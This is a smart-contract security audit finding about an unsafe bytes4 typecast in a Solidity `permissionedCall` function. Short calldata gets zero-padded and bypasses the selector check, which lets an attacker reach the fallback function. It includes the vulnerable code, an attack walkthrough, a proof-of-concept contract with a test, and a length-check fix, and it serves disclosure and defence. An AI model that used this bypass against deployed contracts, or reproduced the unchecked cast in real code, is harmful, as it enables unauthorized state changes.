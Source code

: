 In the `PermissionCallable` abstract contract, the `permissionedCall` function contains an unsafe typecasting of the `bytes calldata call` parameter. This allows an attacker to exploit the function by providing a `call` parameter shorter than 4 bytes, which results in zero-padding. This zero-padding can inadvertently match function selectors that end in one or more zero bytes and are enabled to support permissioned calls. In such a case, intended security checks can by bypassed by an attacker, leading to unintended delegate calls and maliciously triggering the fallback function.

## Affected Code

```solidity
/// @inheritdoc IPermissionCallable
function permissionedCall(bytes calldata call) external payable returns (bytes memory res) {
    // check if call selector is allowed through permissionedCall
    if (!supportsPermissionedCallSelector(bytes4(call))) revert NotPermissionCallable(bytes4(call));
    // make self-delegatecall with provided call data
    return Address.functionDelegateCall(address(this), call);
}
```

## Vulnerability Explanation

In the provided code, the `call` parameter is unsafely typecast to a `bytes4` type without checking its length. If `call` is shorter than 4 bytes, the cast results in zero-padding. For instance, if `call` is `bytes('0x01')`, it is cast to `bytes4(0x01000000)`. This will bypass the `supportsPermissionedCallSelector` check if a function selector in the child contract ends in one or more zero bytes and supports permissioned calls.

Consider the following scenario:

1. A child contract inherits `PermissionCallable` and implements a function with a selector ending in one or more zero bytes, such as `0xff000000`.
2. The function is declared to support permissioned calls in the `supportsPermissionedCallSelector(selector)` function in the child contract, so `true` is returned for the `0xff000000` selector.
3. An attacker calls `permissionedCall(hex'ff')` on the child contract.
4. The cast to `bytes4` results in padding of the single `0xff` byte to `bytes4(0xff000000)`, which passes the `supportsPermissionedCallSelector` check and does not revert.
5. The self-delegatecall is executed with the non-padded value for `call = hex'ff'`, which triggers the fallback function as no Solidity function can bear a single-byte selector
6. The fallback function can thus be invoked at will by an attacker, leading to unintended state changes or other potential security issues such as unexpected external calls.

The likelihood of a random, innocently-implemented function bearing a selector with at least one trailing zero-byte is high enough to be relevant- somewhere in the low single digit percentages.

## Proof of concept:

```solidity
// vulnerable contract which enables permissioned calls for functions bearing selectors of at least one trailing zero-byte
contract InnocentContractInheritsPermissionCallable is PermissionCallable {
    bytes public sensitiveStorage; // mutable via fallback

    // this function's selector == 0x00000000
    function supportedPermissionedCallWithAtLeastOneTrailingZeroByte4273234894() public {
        // does innocent intentional stuff
    }

    // this function's selector == 0xff000000
    function supportedPermissionedCallWithAtLeastOneTrailingZeroByte2569728703() public {
        // does innocent intentional stuff
    }

    // this function's selector == 0xffff0000
    function supportedPermissionedCallWithAtLeastOneTrailingZeroByte4600833262() public {
        // does innocent intentional stuff
    }

    // this function's selector == 0xffffff00
    function supportedPermissionedCallWithAtLeastOneTrailingZeroByte15430792436() public {
        // does innocent intentional stuff
    }

    /// @notice Returns true if `selector` is passed with 0x00000000, 0xff000000, 0xffff0000, or 0xffffff00
    /// These 4-byte values will be passed in by `permissionedCall()` after its unsafe typecast padding
    function supportsPermissionedCallSelector(bytes4 selector) public view virtual override returns (bool) {
        if (
            selector == this.supportedPermissionedCallWithAtLeastOneTrailingZeroByte4273234894.selector ||
            selector == this.supportedPermissionedCallWithAtLeastOneTrailingZeroByte2569728703.selector ||
            selector == this.supportedPermissionedCallWithAtLeastOneTrailingZeroByte4600833262.selector ||
            selector == this.supportedPermissionedCallWithAtLeastOneTrailingZeroByte15430792436.selector
        ) {
            return true;
        }
    }

    /// @notice If `this.permissionedCall(bytes calldata call)` is invoked with any of the following:
    ///   `call == ''` || `call == hex'00'` || `call == hex'ff'` || `call == hex'ffff'` || `call == hex'ffffff'`
    /// This fallback function will be executed instead of intended behavior which is to revert
    fallback(bytes calldata uhOh) external returns (bytes memory) {
        require(msg.sender != address(this), "Sensitive stuff happens here: self-delegatecall only!");
        sensitiveStorage = uhOh;
        return sensitiveStorage;
    }
}

    // foundry test case demonstrating vulnerability
    function test_permissionedCallUnsafeTypecastBytes4() public {
        InnocentContractInheritsPermissionCallable innocentContract = new InnocentContractInheritsPermissionCallable();

        innocentContract.permissionedCall(hex'ffffff');
        assertEq(innocentContract.sensitiveStorage(), hex'ffffff');

        innocentContract.permissionedCall(hex'ffff');
        assertEq(innocentContract.sensitiveStorage(), hex'ffff');

        innocentContract.permissionedCall(hex'ff');
        assertEq(innocentContract.sensitiveStorage(), hex'ff');

        innocentContract.permissionedCall('');
        assertEq(innocentContract.sensitiveStorage(), hex'');
    }
```

## Recommended Mitigation

To prevent this vulnerability, add a length check to ensure the `call` data is at least 4 bytes long before proceeding with the typecast and delegatecall. For example, update the `permissionedCall` function as follows:

```solidity
function permissionedCall(bytes calldata call) external payable returns (bytes memory res) {
        // Ensure the call data is at least 4 bytes long to extract the function selector
        if (call.length < 4) revert InvalidSelector(call);
        // ... rest of function
}
```
